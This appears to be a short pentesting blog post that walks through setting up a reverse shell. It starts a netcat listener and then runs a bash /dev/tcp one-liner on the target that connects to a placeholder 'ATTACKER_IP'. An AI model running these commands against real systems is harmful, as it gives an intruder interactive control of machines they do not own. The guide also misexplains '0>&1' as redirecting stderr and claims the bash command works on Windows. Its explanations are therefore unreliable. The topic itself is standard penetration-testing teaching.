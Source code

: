 ```yaml
---
author: "Marcin M"
title: "Reverse Shell — Quick Guide"
date: 2025-03-29T18:29:52Z
description: "How to run a reverse shell and receive the connection successfully."
aliases: []
draft: false
categories: ["Pentesting", "Shells"]
tags: ["reverse shell", "linux", "networking", "pentest"]
ShowToc: true
TocOpen: false
searchHidden: false
editPost:
  URL: "https://github.com/Marcin13/posts/blob/master/Reverse_shell.md"
---
```


![Screenshot.png](http://marcinmitruk.link/img/Reverse-shell/Screenshot_1.png)

## 🔁 What is a Reverse Shell?

A reverse shell is a connection **initiated from the target back to the attacker**.  
Useful in cases where the target is behind NAT or a firewall.

---

## 📥 Step 1: Start a Listener

On your attacker machine (Kali, VPS, Oracle Cloud, etc.), open a port to receive the connection:

```bash
nc -lvnp 12345
```

    -l → listen mode

    -v → verbose

    -n → skip DNS

    -p 12345 → port to listen on

✅ Important:
If you're using Oracle Cloud, AWS, or any VPS, you must manually open the port (e.g., 12345) in your security rules / firewall settings.

## 📥 Step2: Run the Reverse Shell

On the target machine (Linux, Windows, macOS, etc.), run the following command:

```bash
bash -i >& /dev/tcp/ATTACKER_IP/12345 0>&1
```
    bash -i → start an interactive shell

    >& /dev/tcp/ATTACKER_IP/12345 → redirect stdin and stdout to the attacker's IP and port

    0>&1 → redirect stderr to stdout

🔗 **Note:** Replace `ATTACKER_IP` with your IP address.
If everything is correct, you’ll see a connection like:

```bash
connect to [ATTACKER_IP] from (UNKNOWN) [TARGET_IP] 12345
```

Happy hacking! 🎉
